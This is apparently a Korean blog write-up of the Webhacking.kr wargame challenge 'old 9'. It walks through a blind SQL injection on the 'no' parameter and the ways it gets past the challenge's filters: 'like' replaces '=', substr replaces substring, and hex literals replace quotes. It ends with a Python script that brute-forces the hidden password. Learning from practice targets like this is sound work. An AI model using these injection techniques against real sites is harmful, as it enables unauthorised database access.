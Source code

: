 ```yaml
---
title: "Webhacking.kr challenge(old) 9th Write-Up"
tags: [database, wargame]
categories: [Web]
---
```


Webhacking.kr 9 Write-Up
------------------------

## **문제 분석**

이 문제의 경우 많은 걸 배울 수 있던 문제였습니다. 여태까지 해왔던 SQL Injection의 경우 입력 form을 target으로 진행된 반면, 
이번의 경우 정말 blind SQL Injection의 정석이라고 생각될 정도의 문제였습니다.

먼저 문제를 클릭하면 다음과 같은 화면을 먼저 볼 수 있었습니다.

![webhacking_kr_9_main](https://raw.githubusercontent.com/Jun-Project-LAB/Jun-Project-LAB.github.io/main/_image/webhacking_kr_9_main.png)

password를 제출하는 입력칸과 1, 2, 3 각각 hyperlink를 확인할 수 있었습니다. 먼저 각각의 hyperlink를 눌러서 확인해보면 1번은 Apple, 2번은 Banana가 출력되며 
3번의 경우 문제 해결 조건과 관련있을 법한 내용을 출력하였습니다.

![webhacking_kr_9_3](https://raw.githubusercontent.com/Jun-Project-LAB/Jun-Project-LAB.github.io/main/_image/webhacking_kr_9_3.png)

사진을 보면 알 수 있듯이 Secret이라고 되어 있으며 id, no 두 개의 column이 있고 no 3의 id가 password라고 되어 있습니다.

가장 먼저 찾을 수 있던 것은 no에 관한 것인데 hyperlink의 숫자가 URL의 GET 인자로 전달해주는 숫자와 일치하는 것을 확인할 수 있었습니다.

>*https://webhacking.kr/challenge/web-09/?no=3*
3을 눌러서 접속하였을 때의 URL

## **풀이 방법 찾기**

이 이후에 제대로 갈피를 잡지 못하고 main page에서 확인할 수 있던 입력 form에서 SQL Injection을 실시하였으나 이는 해결에 접근할 수 없었습니다.

풀이 방법을 찾아본 결과 입력 form이 아닌 no 인자를 전달하는 곳을 통해서 blind SQL Injection을 수행할 수 있었습니다.

풀이 방법을 보고 정말 정석적인 blind SQL Injection이라고 느끼게 된 점이 no 값에 1 ~ 3이 아닌 다른 값이 전달될 경우 제대로 페이지가 로딩 되지 않는 점을 이용하여 Injection을 수행하는 것이었습니다.

또한 필터링 되는 문자가 있을 경우 Access Denied 라는 문구가 출력되었습니다. 이를 위해서는 if문을 사용하였습니다.

- **if문 구조**

if문의 구조는 if(A, B, C)로 A의 결과가 참일 경우 B를, 거짓일 경우 C를 반환합니다. 이 문제의 경우 B에는 3, C에는 1, 2, 3이 아닌 다른 값을 입력하여 참과 거짓을 구분하였습니다.

여기서 비교를 위한 연산자인 =이 필터링 되어 like를 사용하여 값을 비교하였습니다. 또한 쿼리문에 공백이 있을 경우에도 Access Denied가 출력되었는데 이는 공백을 필터링한 것이 아닌 % 문자가 필터링 되기 때문에 공백이 URL Encoding되어 발생되는 것이었습니다.

따라서 다음과 같은 형식으로 해야 필터링을 우회할 수 있었습니다.

```python
?no=if(length(id)like(0),3,0)
```

이 때 페이지의 html code를 살펴보았을 때 form의 max length가 11이었기에 1부터 11까지를 범위로 잡고 진행하였습니다.

* * *

id의 길이는 11글자였으며 최종적으로 문자열을 알아낼 필요가 있었습니다. 자주 사용되는 함수인 substring을 입력하였을 때는 필터링 되었으나 substr로 입력할 경우 필터링 되지 않았기에 사용할 수 있는 것을 확인할 수 있었습니다.

문제는 %가 필터링 되기 때문에 single quotes와 double quotes도 사용할 수 없었기에 이를 우회할 방법이 필요했습니다. 또한 문자열과 관련되서 자주 사용되는 char, ascii, ord 함수도 모두 필터링 되었기 때문에 다른 방법을 사용할 필요가 있었는데 hex 값을 사용할 경우 query가 가능하다는 것을 알 수 있었습니다.

문자열을 추출하는 과정에서 %와 _ 문자도 포함되어 출력되었는데 이를 위해서 해당 문자들의 경우 생략하도록 작성하였습니다. 또한 대/소문자 구분을 하지 않아서 결과적으로 정상적인 결과는 아닌 값을 알 수 있을 정도의 결과물이 출력되었습니다.

작성한 코드는 다음과 같습니다.

```python
#!/usr/bin/python

import requests as req

url = "https://webhacking.kr/challenge/web-09/"
cookies = {"PHPSESSID":"1sufshmhf7a3l4p5pi8mh8nepq"}
ref = "Secret"
answer = ""

for a in range(1, 11+1):
    params = "?no=if(length(id)like({}),3,0)".format(a)
    requrl = url+params
    response = req.get(requrl, cookies=cookies)
    if ref in response.text:
        print("id length is \"{}\"".format(a))

for i in range(1, 11+1):
    for j in range(33, 126+1):
        if chr(j) == '%' or chr(j) == '_':
            continue
        key = hex(j)
        params = "?no=if(substr(id,{},1)like({}),3,0)".format(i, key)
        requrl = url+params
        response = req.get(requrl, cookies=cookies)
        if ref in response.text:
            answer += chr(j)


print("answer is \"{}\"".format(answer))
``` 
